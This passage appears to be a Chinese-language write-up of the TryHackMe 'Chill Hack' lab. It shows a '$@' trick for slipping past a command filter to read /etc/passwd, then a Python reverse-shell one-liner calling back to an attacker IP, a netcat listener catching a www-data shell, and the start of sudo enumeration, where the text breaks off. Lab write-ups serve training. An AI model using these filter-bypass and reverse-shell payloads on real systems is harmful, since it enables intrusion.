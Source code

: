 经过测试，命令行做了一些过滤，很多命令都不能正常执行，但是我们可以用```$@```绕过

比如查看```/etc/passwd```
```
c$@at /etc/passwd


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
aurick:x:1000:1000:Anurodh:/home/aurick:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
apaar:x:1001:1001:,,,:/home/apaar:/bin/bash
anurodh:x:1002:1002:,,,:/home/anurodh:/bin/bash
ftp:x:112:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
```

我们创建一个反弹shell，使用paylpad:
```python3$@ -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.21.169",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'```


# 拿到初始shell
```
┌──(root💀kali)-[~/tryhackme/chillhack]
└─# nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.49.122] 58604
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
whoami
www-data
```

切换成tty,查看本账户权限，可以用apaar的身份运行一个脚本
```
www-data@ubuntu:/var/www/html/secret$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu: